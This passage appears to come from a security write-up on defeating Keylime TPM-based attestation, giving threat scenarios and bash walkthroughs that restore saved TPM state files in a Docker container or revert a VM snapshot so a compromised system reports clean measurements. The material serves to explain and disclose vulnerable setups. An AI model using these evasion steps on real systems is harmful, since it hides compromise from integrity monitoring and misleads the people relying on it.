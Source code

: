 ```

#### Scenario 1: VM-based Deployment
- **Who**: Hypervisor admin (host) attacking guest VM 
- **Position**: Attacker is on the host, targeting Keylime running in a VM
- **Goal**: Make infected VM appear clean to external verifiers
- **Required Access**: Hypervisor/host admin privileges
- **Attack Method**: VM snapshot rollback or vTPM state manipulation

#### Scenario 2: Container-based Deployment
- **Who**: Container host admin attacking container integrity
- **Position**: Attacker is on the container host
- **Goal**: Make compromised container report clean measurements
- **Required Access**: Root on host running containers
- **Attack Method**: Manipulate TPM state files used by container

#### Scenario 3: Bare-metal Deployment
- **Who**: Root user with local access
- **Position**: Attacker has privileged access on the same system
- **Goal**: Hide malware from Keylime attestation
- **Required Access**: Root privileges or physical access
- **Attack Method**: Hardware reset or TPM state manipulation

### Real-World Examples (with vulnerable configurations)

#### Example 1: Container Host Attacking Container (Host → Container)
```bash
# Scenario: Container host admin manipulating TPM state of container
# Vulnerability: Unprotected TPM state files in Docker
# Attacker position: On the host running the Keylime agent container

# 1. Create backup when system is clean
docker cp keylime-agent:/tmp/tpmdir/tpm2-00.permall ./clean-permall
docker cp keylime-agent:/tmp/tpmdir/tpm2-00.volatilestate ./clean-volatile

# 2. Install malware inside the container
docker exec -it keylime-agent bash -c "echo 'malware' > /bin/evil"
docker exec -it keylime-agent chmod +x /bin/evil

# 3. Restore clean TPM state before attestation
docker stop keylime-agent
docker cp ./clean-permall keylime-agent:/tmp/tpmdir/tpm2-00.permall
docker cp ./clean-volatile keylime-agent:/tmp/tpmdir/tpm2-00.volatilestate
docker start keylime-agent

# Result: TPM will report pre-malware PCR values during attestation
# TPM Quote will contain old "clean" measurements despite malware presence
```

#### Example 2: Hypervisor Attacking VM (Host → VM)
```bash
# Scenario: Cloud admin manipulating guest VM state
# Vulnerability: VM snapshot rollback with vTPM
# Attacker position: On the hypervisor host with VM admin access

# 1. Create snapshot of clean VM state
virsh snapshot-create-as keylime-vm clean-state --disk-only

# 2. VM becomes compromised (either by admin or external attacker)
# (malware installs inside the VM)

# 3. Admin rolls back VM to clean snapshot before attestation
virsh snapshot-revert keylime-vm clean-state

```